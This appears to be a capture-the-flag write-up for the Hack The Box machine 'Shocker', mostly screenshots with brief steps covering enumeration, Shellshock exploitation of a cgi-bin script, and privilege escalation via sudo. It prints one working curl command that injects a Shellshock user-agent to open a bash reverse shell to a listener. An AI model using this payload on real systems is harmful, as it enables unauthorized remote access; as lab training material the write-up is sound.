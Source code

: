 https://app.hackthebox.com/machines/Shocker

Enumeration

Run nmap scan to find for open ports.

![image](https://user-images.githubusercontent.com/93418272/184519095-57f3e341-40e9-4c2c-8a49-3d64ef7feec3.png)


Run a gobuster scan

![image](https://user-images.githubusercontent.com/93418272/184519097-ad429544-e453-46ba-b2d5-1662dc124c30.png)


Webserver shows us a normal page.

![image](https://user-images.githubusercontent.com/93418272/184519101-10b32cc1-c593-4711-93d8-d1b5ccab96bc.png)


cgi-bin page is unavailable , lets run a gobuster scan against it. Make sure to add as many extensions as posssible.

![image](https://user-images.githubusercontent.com/93418272/184519107-74c8190e-22dc-4b8e-8c4e-dfee05311818.png)


Download the script file.

![image](https://user-images.githubusercontent.com/93418272/184519111-0e5b8544-bb2f-4716-b112-0a6411ddc3e9.png)

![image](https://user-images.githubusercontent.com/93418272/184519119-57711027-41b4-4433-9493-5362d194f398.png)

From the box name and cgi-bin we can guess that the machine has a shellshock vulnerability.

Use a nmap scrip scan to test for this vulnerability.

![image](https://user-images.githubusercontent.com/93418272/184519124-42a565f0-bb34-4c71-9f02-4a4027f8a709.png)


Let's test out the vulnerability.

Found a script with google here.

![image](https://user-images.githubusercontent.com/93418272/184519132-278dd19a-b385-4e7a-9b62-91ce8a8896cb.png)


Test it out on burpsuite.

![image](https://user-images.githubusercontent.com/93418272/184519137-604b249a-2bcb-4ac9-9b8a-1e4e364487d1.png)


on curl

![image](https://user-images.githubusercontent.com/93418272/184519142-d25060bb-7957-4f5d-bec1-110eed4a777f.png)


Use a bash reverse shell to craft out a payload for the shellshock exploit.

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/4444 0>&1'" \
http://10.10.10.56:80/cgi-bin/user.sh

Start a nc listener 

![image](https://user-images.githubusercontent.com/93418272/184519152-5a302d6e-a0a5-4130-94ab-147c65cfe3dd.png)


Foothold

A shell is gained.

![image](https://user-images.githubusercontent.com/93418272/184519160-39234708-0450-48a8-9e67-ecb0fb41e03e.png)


First flag is found.

![image](https://user-images.githubusercontent.com/93418272/184519165-8f0455ba-69d8-4c86-a684-6bf4c2637675.png)


Privilege escalation

Check sudo -l for clues.

![image](https://user-images.githubusercontent.com/93418272/184519169-b92990b0-c193-4a16-a38b-685cb11903ba.png)


Check GTFOBins for script.

![image](https://user-images.githubusercontent.com/93418272/184519178-7db3313b-029f-4e01-80be-7d94727e4ffe.png)


Run the script and root access is gained.

![image](https://user-images.githubusercontent.com/93418272/184519180-816dc31b-4df4-4b2b-84d8-7ae88eae67eb.png)


Final flag is found.

![image](https://user-images.githubusercontent.com/93418272/184519183-107c581e-c466-4aae-9aa8-665dcd19cc69.png)
